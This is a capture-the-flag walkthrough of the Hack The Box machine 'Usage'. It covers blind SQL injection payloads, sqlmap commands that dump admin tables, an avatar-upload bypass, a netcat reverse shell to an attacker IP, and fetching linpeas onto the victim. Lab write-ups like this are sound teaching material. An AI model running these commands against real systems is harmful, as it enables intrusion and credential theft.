 ```yaml
---
title: Walkthrough - Usage - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```



# Walkthrough - Usage, a Hack The Box machine

## About the machine

| data       |                                                   |
| ---------- | ------------------------------------------------- |
| Machine    | Usage                                             |
| Platform   | Hackthebox                                        |
| url        | [link](https://app.hackthebox.com/machines/Usage) |
| OS         | Linux                                             |
| Difficulty | Easy                                              |
| Points     | 20                                                |
| ip         | 10.10.11.18                                       |

## Getting user.txt flag

### Enumeration

```bash
sudo nmap -sV -sC $ip -p-
```

Results:
 Port 22 and 80.


### Browsing the app

After entering in http://10.10.11.18, a dns error is displayed. The page is redirected to http://usage.htb.

I will add that line in my host resolver config file.

```bash
# testing for an existing file
echo "10.10.11.18    http://usage.htb" >> /etc/hosts
```

The application is simple. A Login pannel with a "Remember your password" link. An other links to an admin login pannel and a logout feature. Enumeration techniques also gives us some ideas about Laravel framework being in use.

After testing the login form and the remember your password form, I can detect a SQL injection vulnerability in the remember your password form.

Previously I registered a user lala@lala.com.

![Step](img/htb-usage6.png)

Payloads for manual detection:

```
lala@lala.com' AND 1=1;-- -
```

![Step](img/htb-usage6.png)


```
lala@lala.com' AND 1=1;-- -
```

![Step](img/htb-usage7.png)

Now, we know that we have a SQL injection, Blind with the AND Boolean technique, so we can use sqlmap with --technique flag set to BUT. We can also save time using the flag `--dbms` to indicate that is a mysql database:


```
sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch --dbs --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch -D usage_blog --tables --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch -D usage_blog -T admin_users --dump --threads 3
```


#### Upload a reverse shell

The admin profile can be edited. The upload feature for the avatar image is vulnerable. 

First, I tried to upload a php file, but files extensions are sanitized client side.

![Step](img/htb-usage1.png)


Then, I uploaded a php reverse shell file using jpg extension. The file was uploaded but it was not executable.
![Step 2](img/htb-usage2.png)


Finally I used Burpsuite and intercepted the upload of my ivan.jpg file. During the interception I modified the extension to php.

![Step](img/htb-usage3.png)


Finally the reverse shell worked. But for a limited period of time (see steps 1 and 2). Time enough to set up a hook and establish a new connection (see steps 2 and 3) with a  [bash reverse shell](reverse-shells.md)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.49 4444 >/tmp/f
```



![Step](img/htb-usage4.png)


#### Getting user.txt

First, I spawned a shell:

```
SHELL=/bin/bash script -q /dev/null
```

and printed out the flag:

```
cat /home/dash/user.txt
```


## Getting root.txt

First, I perform a lateral movement to the other user present in the machine. For that I cat the /etc/passwd file and I run linpeas.sh script in the machine. 

### Lateral movement

Enumerate other users with access to a bash terminal:

```
cat /etc/passwd | grep -E ^*/bin/bash$
```

Results:

```
root:x:0:0:root:/root:/bin/bash
dash:x:1000:1000:dash:/home/dash:/bin/bash
xander:x:1001:1001::/home/xander:/bin/bash
```


Upload the script [linpeas](linpeas.md) to the victims machine.

```
################
# In the attacker machine
###############
# Download the script from the release page
curl https://github.com/peass-ng/PEASS-ng/releases/download/20240414-ed0a5fac/linpeas.sh

# Copy the file to the root of your apache server
cp linpeas.sh /var/wwww/html

# Start your server 
service apache2 start
# Turn it off once you have served your file

################
# From the victim machine
################
# Download the script from the release page or from the attacker server
wget http://attackerIP/linpeas.sh

# Run the script
chmod +x linpeash.sh
./linpeas.sh
```




Some interesting takeaways from the linpeas.sh results:

![Step](img/htb-usage8.png)


![Step](img/htb-usage9.png)
